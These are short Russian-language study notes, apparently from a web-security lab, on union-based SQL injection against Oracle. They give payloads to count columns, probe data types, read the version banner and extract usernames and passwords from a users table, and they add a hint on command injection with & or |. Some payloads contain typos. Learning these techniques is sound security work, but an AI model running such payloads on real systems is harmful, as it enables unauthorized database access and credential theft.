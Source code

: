 нужно искать подсказки на тип бд (oracle)

**когда нужна другая таблица - то мы применяем union-based sqli!!!**

`UNION SELECT NULL, NULL FROM DUAL-- `- определяем количество столбцов в таблице

`UNION SELECT 'ddd', 'ddd' FROM DUALS--` - определяем тип данных в столбце

`UNION SELECT = BANNER, 'SSS' FROM V$VERSION--` - обращаемся к другой таблице

достали версию оракл базы

далее делаем то, что нужно

`union select null, username || ' - ' || password from users`

чтобы выйти из контекста, команды линукса - `&` или `|`